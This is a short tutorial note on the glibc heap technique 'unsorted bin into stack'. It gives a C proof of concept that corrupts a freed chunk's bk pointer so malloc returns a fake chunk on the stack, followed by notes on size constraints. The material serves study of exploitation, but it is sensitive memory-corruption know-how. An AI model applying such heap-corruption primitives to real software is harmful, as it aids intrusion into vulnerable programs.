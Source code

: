 # Unsorted_bin into stack
> LongChampion, 19/03/2020

In this attack, we modify the `bk` pointer of a chunk in unsorted_bin to make `malloc` return a fake chunk.
```
#include <stdlib.h>

struct Chunk
{
    long long pre_size, size;
    struct Chunk *fd, *bk;
};

int main()
{
    struct Chunk Fake, NextFake;

    void *victim = malloc(0x100 - 8);
    void *pivot = malloc(0x100 - 8);

    free(victim);
    struct Chunk *header = (struct Chunk *) (victim - 0x10);
    header->bk = &Fake;
    Fake.size = 0x200;
    Fake.bk = &NextFake;

    void *STACK = malloc(0x200 - 8);
}
```
First, we allocate two chunks and free the first chunk to push it into unsorted_bin. Then we set the `bk` pointer of `victim` point to our fake chunk. After that, we set the size of the fake chunk (it must differ from size of `victim` chunk) and set `Fake.bk` point to somewhere. Finally, call `malloc` with EXACT resquest size to get the fake chunk.

## Note
- The `pivot` chunk is used to prevent `free` consolidate `victim` with top_chunk.
- You can change size of `victim` chunk and size of fake chunk to any value. But the following condition must be satify:
    - Size of fake chunk is differ from size of size of `victim` chunk.
    - Size of fake chunk fall into fastbin range or smallbin range (can't be largebin range)
- Request size of last `malloc` call must be **calcutaled** to make `malloc` return a fake chunk (read `calc_tcache_idx.md` if you don't know how to calculate this value)
- As we expect, `STACK` point to `Fake.fd`, not `Fake`.
